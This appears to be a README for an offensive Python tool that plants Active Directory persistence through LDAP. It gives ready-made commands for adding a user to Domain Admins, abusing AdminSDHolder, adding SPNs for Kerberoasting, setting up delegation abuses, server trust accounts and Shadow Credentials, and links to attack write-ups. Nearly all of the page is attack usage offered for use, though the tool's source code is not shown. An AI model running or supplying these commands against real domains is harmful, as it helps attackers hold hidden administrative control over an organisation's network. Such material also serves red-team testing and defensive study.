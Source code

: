 # LDAP Persistence
Python tool to execute several Active Directory persistence techniques through LDAP queries.

## Features

- Add user to Domain Admins Group
- Add user to AdminSDHolder
- Add SPN to user for later Kerberoasting
- Add Unconstrained Delegation to Computer
- Add Server (Un)Trust Account
- Add write access to msDS-KeyCredentialLink for the target computer (Shadow Credentials attack)
- Add Constrained Delegation to Computer
- Add Resource-Based Constrained Delegation to Computer

## Usage

### Add user to Domain Admins Group:

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 0 -t targetUser
```

### Add user to AdminSDHolder

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 1 -t targetUser 
```

### Add SPN to user for later Kerberoasting

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 2 -t targetUser -spn example.local/test.example.local
```

### Add Unconstrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 3 -t targetComputer
```

### Add Server (Un)Trust Account

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 4 -t targetComputer
```

### Add write access to msDS-KeyCredentialLink for the target Computer (Shadow Credentials attack)

Keep in mind that in order to exploit the Shadow Credentials attack you need the following requirements:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 5 -t targetComputer
```

### Add Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 6 -t targetComputer -spn cifs/test.example.local
```

### Add Resource-Based Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 7 -t targetComputer -computer example-pc
```

## References

AdminSDHolder - https://adsecurity.org/?p=1906

Add SPN to user for later kerberoasting - https://adsecurity.org/?p=3466

Shadow Credentials - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials

Unconstrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation

Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

Resource-Based Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Add Server (Un)Trust Account - https://stealthbits.com/blog/server-untrust-account/
